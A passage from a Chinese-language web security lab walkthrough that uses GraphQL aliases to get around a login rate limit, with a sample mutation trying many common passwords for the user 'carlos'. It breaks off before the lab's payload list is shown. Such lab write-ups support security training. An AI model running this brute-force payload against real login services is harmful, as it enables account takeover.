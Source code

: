 在发送多个请求之后会看到频次限制的提示：

[![](assets/1708485015-1a089c39abaa6de356eb175444931820.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220152627-5c0b7d80-cfc1-1.png)

随后我们在 GraphQL 选项卡中创建一个请求，该请求使用别名在一条消息中发送多个登录，构建请求时请记住以下几点：

-   别名列表包含在{}类型中
-   每个别名都应该具有用户名 carlos 和与身份验证列表不同的密码
-   如果要修改发送给 Repeater 的请求，请在发送之前从请求中删除变量 dictionary 和 operationName 字段
-   您可以从 Repeater 的 Pretty 选项卡执行此操作

确保每个别名都请求 success 字段，如下面的简化示例所示：

```bash
mutation {
        bruteforce0:login(input:{password: "123456", username: "carlos"}) {
              token
              success
          }

          bruteforce1:login(input:{password: "password", username: "carlos"}) {
              token
              success
          }

          ...

          bruteforce99:login(input:{password: "12345678", username: "carlos"}) {
              token
              success
          }
    }
```

这里我们使用靶场提供的载荷：
